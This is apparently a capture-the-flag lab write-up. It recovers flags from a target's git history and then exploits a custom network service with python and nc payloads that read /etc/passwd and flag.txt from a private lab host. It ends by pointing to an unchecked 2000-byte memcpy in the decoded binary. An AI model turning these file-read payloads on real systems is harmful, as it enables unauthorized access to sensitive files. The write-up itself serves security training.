 By looking at the commit log using `git log -p` we can also see a file called `project.enc` which was deleted in later commits but more on this later.

If we look closely on the file at commit `My cat danced on the keyboard` (`06483346fab91b2b17471074a887ac7dffd9ceda`) we can notice some uppercase letters. If we only extract the uppercase letters we get the following text:
```
grep -ohE "[A-Z]" hellofriend.c | tr -d "\n"

FILEFLAGARSEREQUEST
```

So this looks like a flag string. Extracting it manually from the file reveals our first flag:
```
FLAG{ARSE_REQUEST}
```

The service running on port 6969 seems to be a merged version of the `hellofriend.c` revisions. The latest version of the code seems to check the `request type` of the received packet. Request code `0x01` calls the file read code and request code `0x02` the other one. Also the code always adds two to the char pointer before the filename is parsed so the request type has to be 2 bytes long.

So let's have a look at the first code: the file read part.

The file read code ignores the first two bytes(the request type) (`ptr = (char *)ptr + 2;`) and subtracts 9 from the string length to get the filename length (2 bytes request type + 6 bytes padding + NULL terminator). So all we have to do is send request code 0x01 and pad the filename with 6 random chars.

```
root@kali:~/baffle# python -c 'print("\x01\x01/etc/passwdaaaaaa")' | nc 192.168.56.2 6969
root:x:0:0:root:/root:/bin/bash
```

As the `fgets` function only reads text up to a newline or EOF (null byte) character we are only able to read the first line of a file. This behaviour is enough to get the contents of `flag.txt`:
```
root@kali:~/baffle# python -c 'print("\x01\x01flag.txtaaaaaa")' | nc 192.168.56.2 6969
FLAG{is_there_an_ivana_tinkle}
```

If we look at commit **d38ce2e28e32aa7787d5e8a2cb83d3f75c988eca** we can see an additional file called `project.enc`. The file seems to be base64 encoded so let's decode it and have a look:
```
root@kali:~/baffle# git checkout d38ce2e28e32aa7787d5e8a2cb83d3f75c988eca
root@kali:~/baffle# cat project.enc | base64 -d > exe
root@kali:~/baffle/192.168.56.2# file exe
exe: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=8d8f87535451003b05db15d14d07818576813b49, not stripped
```

So this looks like the compiled code and we can start analyzing it. By looking at the c code (because it's easier to read) we can see our vulnerable code at the bottom:
```
memcpy(data, ptr, 2000);
```
